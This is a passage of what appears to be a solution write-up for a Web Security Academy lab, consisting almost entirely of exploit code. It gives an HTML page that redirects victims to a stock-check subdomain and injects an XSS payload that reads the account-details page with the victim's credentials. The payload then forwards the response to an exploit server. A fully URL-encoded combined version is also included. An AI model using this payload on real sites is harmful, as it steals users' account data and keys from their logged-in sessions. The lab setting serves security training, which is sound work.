 Another version is the following:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Document</title>
    </head>
    <body>
        <h1>Hello</h1>

        <script>
            window.location ="http://stock.ID.web-security-academy.net/?productId=&storeId=3"
        </script>
    </body>
</html>
```

With the following being URL encoded and put after the `productId=` parameter - where XSS is present:

```html
<script>
    const request = new XMLHttpRequest()

    request.open("get", "https://ID.web-security-academy.net/accountDetails", true)

    request.onload= ()=>{
        window.location = "https://exploit-ID.exploit-server.net/exploit?key=" + request.responseText
    }

    request.withCredentials = true
    request.send()
</script>
```

After URL encoding and combining with the main payload:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Document</title>
    </head>
    <body>
        <h1>Hello</h1>

        <script>
            window.location ="http://stock.ID.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%63%6f%6e%73%74%20%72%65%71%75%65%73%74%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%6f%70%65%6e%28%22%67%65%74%22%2c%20%22%68%74%74%70%73%3a%2f%2f%49%44%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%20%74%72%75%65%29%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%6f%6e%6c%6f%61%64%3d%20%28%29%3d%3e%7b%0a%20%20%20%20%20%20%20%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%49%44%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%22%20%2b%20%72%65%71%75%65%73%74%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%0a%20%20%20%20%7d%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%0a%20%20%20%20%72%65%71%75%65%73%74%2e%73%65%6e%64%28%29%0a%3c%2f%73%63%72%69%70%74%3e&storeId=3"
        </script>
    </body>
</html>
```